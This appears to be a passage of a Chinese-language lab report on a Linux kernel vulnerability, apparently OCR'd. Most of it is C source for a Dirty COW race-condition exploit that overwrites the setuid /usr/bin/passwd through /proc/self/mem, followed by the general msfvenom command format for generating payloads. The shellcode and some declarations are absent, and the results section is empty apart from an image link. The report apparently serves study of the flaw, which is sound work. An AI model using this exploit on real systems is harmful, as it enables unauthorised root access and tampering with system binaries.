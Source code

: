 ```C

void * madviseThread(void * argv);
void * writeThread(void * argv);

int main(int argc, char ** argv)
{
    pthread_t write_thread, madvise_thread;

    int dst_fd, fk_fd;
    dst_fd = open("/usr/bin/passwd", O_RDONLY);
    printf("fd of dst: %d\n", dst_fd);

    fstat(dst_fd, &dst_st); // get destination file length
    map = mmap(NULL, dst_st.st_size, PROT_READ, MAP_PRIVATE, dst_fd, 0);

    pthread_create(&madvise_thread, NULL, madviseThread, NULL);
    pthread_create(&write_thread, NULL, writeThread, NULL);

    pthread_join(madvise_thread, NULL);
    pthread_join(write_thread, NULL);

    return 0;
}

void * writeThread(void * argv)
{
    int mm_fd = open("/proc/self/mem", O_RDWR);
    printf("fd of mem: %d\n", mm_fd);
    for (int i = 0; i < 0x10000; i++)
    {
        lseek(mm_fd, (off_t) map, SEEK_SET);
        write(mm_fd, sc, sc_len);
    }

    return NULL;
}

void * madviseThread(void * argv)
{
    for (int i = 0; i < 0x10000; i++){
        madvise(map, 0x100, MADV_DONTNEED);
    }

    return NULL;
}
```



> msfvenom 使用格式如下：
>
> ```
> msfvenom -p <payload> <payload options> -f <format> -o <path>
> ```

#### 实验结果与分析





![QQ图片20230601171241](E:\fadian\QQ图片20230601171241.png)





